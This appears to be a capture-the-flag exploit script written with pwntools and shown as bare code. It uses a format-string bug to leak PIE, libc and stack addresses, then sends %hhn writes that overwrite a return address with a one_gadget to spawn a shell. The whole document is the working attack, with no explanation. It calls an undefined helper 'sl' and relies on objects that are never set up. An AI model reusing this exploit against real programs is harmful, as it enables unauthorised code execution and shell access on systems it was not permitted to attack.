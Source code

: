 ```plain
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()



payload='%19$p,%9$p,%14$p'

#dbg()

sl(payload)
ru(b'0x')
pie=int(p.recv(12),16)-elf.sym['main']-28
ru(b'0x')
libcbase=int(p.recv(12),16)-libc.sym['_IO_file_setbuf']-13
ru(b'0x')
rbp=int(p.recv(12),16)
ret=rbp+8
__libc_start=ret+0x10
print('libc :'+hex(libcbase))
print('pie :'+hex(pie))
print('stack :'+hex(ret))
print('__libc_start :'+hex(__libc_start))
# _IO_file_setbuf+13

ogg=[0xe3afe,0xe3b01,0xe3b04]
o=libcbase+ogg[1]
leave=(0x01301+pie)&0xff
print('leave :'+hex(leave))

ogg1=o&0xff
ogg2=(o>>8)&0xff
ogg3=(o>>16)&0xff
print('o ogg1 ogg2 ogg3',hex(o),hex(ogg1),hex(ogg2),hex(ogg3))
payload=b'%'+str(ogg1).encode()+b'c%11$hhn'
payload+=b'%'+str(ogg2-ogg1).encode()+b'c%12$hhn'
payload+=b'%'+str(ogg3-ogg2).encode()+b'c%13$hhnaaaaaaa'
payload+=p64(__libc_start)
payload+=p64(__libc_start+1)
payload+=p64(__libc_start+2)
#dbg()
sl(payload)

p.interactive()
```
